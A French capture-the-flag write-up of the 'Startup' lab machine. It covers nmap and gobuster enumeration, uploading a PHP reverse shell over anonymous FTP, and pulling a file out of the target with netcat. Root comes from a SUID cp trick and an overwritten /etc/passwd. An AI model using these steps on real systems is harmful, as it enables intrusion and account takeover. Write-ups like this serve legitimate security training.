






Write-up : Startup
Énumération
On commence par un petit nmap avec la commande : nmap -sC -sV 10.10.138.228 et on obtient le résultat suivant
Nous avons 3 port ouverts : ssh:22, ftp:21 et http:80 on essayera donc de se connecter en anonymous au ftp un peu plus tard mais avant cela on jette un coup d'oeil au site web tournant sur le port 80, on tombe sur une page classic, rien d'intéressant dans le code source, je vais donc essayer de voir s'il n'y a pas de dossier intéressant, on fuzze avec gobuster en utlisant la commande : gobuster dir -u http://10.10.138.228 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 et on tombe sur le dossier file/
Bingo !!! on a un dossier FTP ainsi q'un fichier nommé notice, rien de sympa dans le txt. Mon premier réflexe a été de me dire qu'on pouvais sans doute upload un reverse-shell en php donc on se connecte en anonymous sur le ftp on va dans la directory ftp/ et je tape la commande put php-reverse-shell.php
On refresh la page web on voit que notre reverse-shell c'est upload correctement ce qui va nous mener à l'exploitation...
Exploit
Maintenant que nous avons upload notre reverse-shell avant de l'éxécuter on set un listener avec netcat en tapant la commande suivante : nc -lvnp 6666et on obient avec succès notre shell en tant que www-data. Il nous reste plus qu'a trouver un moyen d'augmenter ses privilèges...

Privesc
Alors concernant le privesc j'ai pu voir que tout le monde avaient fait la même méthode Donc j'en ai utliser une autre mais avant en faisant un petit ls on obtient la réponse à la première question dans le fichier recipe.txt. Par la suite on voit un fichier nommé incidents en se déplacant dedans on tombe sur un fichier nommé suspicious.pcapng
Pour le récuperer il nous suffit de taper les commandes suivantes afin de récuperer le fichier,
Sur votre machine : nc -lvp "PORT" > "FILE"
et sur la machine victime :
nc "votre IP" "votre PORT (ex:1234)" < "FILE"
Une fois le fichier récuperé on fait tout simplement un strings suspicious.pcapng et en fouillant un peu
on tombe sur le mdp pour le user lennie
On peut maitenant accéder au user lennie en faisant su lennie, cd /home/lennie puis ls et bingo on chope le flag user.txt. Enfin pour le privesc j'ai tout simplement modifier le fichier /etc/passwd afin de pouvoir me connecter en tant que vragrant(user) qui lui possède les droits d'administrateur. Pour cela on copie le /etc/passwd de la machine victime dans un fichier nommé passwd sur notre machine. Une fois cela fait on génére un salt password avec la commande suivant openssl passwd -1 -salt abc 123
Puis on copie le salt dans notre fichier passwd que l'on a crée à la place du X juste à coté du USER Maintenant on modifie le fichier print.sh en y metttant chmod u+s /bin/cp à la place de echo 'Done'. Une fois cela fait on attend 1 à 2 minutes et pendant ce temps on met un petit serveur http en place avec python : python -m SimpleHTTPServer 80 afin de transférer le file et on le télécharge dans la directory /tmp : wget http://votreIP/passwd puis cp passwd /etc/passwd et voila le tour est jouer on a plus qu'à se connecter en tant que vagrant avec le password 123 et de cat le flag root.txt
Et voilà j'ai pu root cette machine assez facilement néanmoins elle était vraiment sympa Merci d'avoir jeter un coup à ma première Write-up et à très bientôt !!!